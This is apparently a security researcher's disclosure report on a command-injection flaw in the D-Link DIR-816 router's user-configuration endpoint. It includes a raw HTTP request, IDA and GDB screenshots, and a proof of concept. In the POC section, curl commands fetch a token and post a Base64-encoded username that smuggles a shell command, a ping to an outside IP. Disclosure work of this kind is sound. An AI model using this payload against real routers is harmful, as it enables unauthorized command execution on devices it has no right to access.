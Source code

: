 Vender ：D-Link

Firmware version:1.10 B05

Exploit Author: doudoudedi233@gmail.com

Vendor Homepage: http://www.dlink.com.cn/

Hardware Link:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

# report

##### Describe

​	I found some vulnerabilities in the dir-816 750m11ac wireless router , Firmware version is DIR-816A2_FWv1.10CNB05_R1B011D88210

​	The HTTP request parameter is used in the handler function of  /goform/form2userconfig.cgi route, which can construct the user name string to delete the user function. This can lead to command injection through shell metacharacters.

​	If the user can configure the router, it may cause unconditional command execution If the user can configure the router, it may cause unconditional command execution.

##### Details

​	goahead Sub_4566E0 ruction in IDA view

<img src="./img/image-20210819130609706.png" alt="image-20210819130609706" style="zoom:50%;" />

​	Select user account configuration under the maintenance option of router configuration.

<img src="./img/image-20210819142952276.png" alt="image-20210819142952276" style="zoom:50%;" />

​	The modified user name is processed through the webdecode64 function and passed to the dosystem function in the form of formatted parameters. Therefore, the user name is constructed for command injection.

```
POST /goform/form2userconfig.cgi HTTP/1.1

Host: 192.168.33.9

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 183

Origin: http://192.168.33.9

Connection: close

Referer: http://192.168.33.9/d_userconfig.asp

Cookie: curShow=

Upgrade-Insecure-Requests: 1



username=Jztsczsn&privilege=2&oldpass=&newpass=MTIz&confpass=MTIz&deluser=%E5%88%A0%E9%99%A4&select=s0&hiddenpass=192.168.33.9&submit.htm%3Fuserconfig.htm=Send&tokenid=304089172
```

​	The function uses Base64 to decode the received user name, so Base64 encoding is required.

<img src="./img/image-20210819133402633.png" alt="image-20210819133402633" style="zoom:50%;" />

<img src="./img/image-20210819133845707.png" alt="image-20210819133845707" style="zoom:50%;" />

​	 this vulnerability requires the user to have permission to configure the router

##### POC&&EXP
First, get the tokenid 
```
curl -s http://192.168.33.9/dir_login.asp  | grep tokenid
```
```
curl -i -X POST http://192.168.33.9/goform/form2userconfig.cgi  -d "username=JztwaW5nIDExMi4xMjYuOTkuOTE7Jw==&oldpass=123&newpass=MTIz&confpass=MTIz&deluser=Delete&select=s0&hiddenpass=&submit.htm%3Fuserconfig.htm=Send&tokenid=xxxxx"#input id
```
It will decode our command Base64 and execute it 

##### TEST

​	First run our POC

<img src="./img/image-20210819160553286.png" alt="image-20210819160553286" style="zoom:50%;" />

​	GDB stops at the command we are about to execute

<img src="./img/image-20210819160627461.png" alt="image-20210819160627461" style="zoom:50%;" />

​	Successfully executed sh

<img src="./img/image-20210819161606757.png" alt="image-20210819161606757" style="zoom:50%;" />
